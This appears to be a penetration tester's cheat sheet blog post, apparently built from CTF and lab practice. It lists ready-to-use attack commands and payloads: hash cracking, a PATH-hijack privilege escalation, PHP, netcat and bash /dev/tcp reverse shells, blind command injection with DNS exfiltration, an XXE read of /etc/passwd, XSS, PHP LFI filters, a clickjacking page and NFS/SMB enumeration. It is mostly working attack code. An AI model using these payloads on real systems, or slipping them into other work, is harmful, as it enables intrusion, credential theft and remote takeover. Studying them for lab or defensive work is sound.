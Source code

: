 ```yaml
---
layout: post
title: Useful Tricks and Tips
---
```


#Hashcat

- hashcat -m 1800 -a 0 hash.txt rockyou.txt

#Find command

```bash
find / -type f -newermt 2016-09-11 ! -newermt 2016-09-13 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

cd /tmp
echo /bin/sh > curl
chmod 777 curl 
export PATH=/tmp:$PATH
/usr/bin/menu
```

<img src="../assets/images/kenobi.png" />

# Upgrading to a shell

```bash
python -c 'import pty;pty.spawn('/bin/bash')'
SHELL=/bin/bash script -q /dev/null
```

# Reverse Shell

```bash
php -r '$sock=fsockopen("x.x.x.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.2.97 9001 >/tmp/f
```

# Blind OS injection

```bash

||whoami>/var/www/images/output.txt||

# using DNS exfiltration Technique

email=x||nslookup+x.burpcollaborator.net||

```

# XXE Attacks

```html
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

```
# XSS payloads

```html
<script>onclick(alert("Hello"));</script>
// window.location.hostname

```

# John Hashing

```sh

john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
```

# Encryption gpg
- gpg --cipher-algo [encryption type] [encryption method] [file to encrypt] 
- gpg --cipher-algo AES-256 --symetric xyz.txt

## decryption
-- gpg xyz.txt

# How to crack encrypted files using john the ripper
- gpg2john [encrypted gpg file] > [filename of the hash you want to create]

# Reverse a wordlist
```sh
tac data.txt > new_data.txt
```
# Email re

```bash

email_re = re.compile(r'([a-zA-Z0-9_\+\-\.]+)@(([[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.)|(([a-zA-Z0-9\-]+\.)+))([a-zA-Z]{2,4}|[0-9]{1,3})(\]?)')
```

## Php reverse shell function

```php

function execInBackground($cmd) { 
                if (substr(php_uname(), 0, 7) == "Windows"){ 
                                    pclose(popen("start /B ". $cmd, "r"));  
                                                    } 
                                                                    else { 
                                                                                        exec($cmd . " > /dev/null &");   
                                                                                                            } 
                                                                                                                            } 
                                                                                                                                        execInBackground("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_HERE/YOUR_PORT_HERE 0>&1'");

```
# PHP LFI

```bash
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```
# Practice Labs
Capture the Flag (CTF) API Portal

    docker pull sbacker/ctfapi
    docker run --name ctfapi1 -p 8000:8000 -it -d sbacker/ctfapi

Witcher Portal

    docker pull sbacker/witcherportal
    docker run -it -d --name witcher10 -p8080:8080 -e PYTHONUNBUFFERED=1 sbacker/witcherportal

# Clickjack Attack Payload

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acbe1f391e8fd65480c7a7ac017500d7.web-security-academy.net/exploit"></iframe>

```
# Enumerating Samba
-SMB has two ports, 445 and 139
- On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.


Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve.

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.89.231
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```


```bash
On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.

smbclient //<ip>/anonymous
smbget -R smb://<ip>/anonymous
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.89.231

```
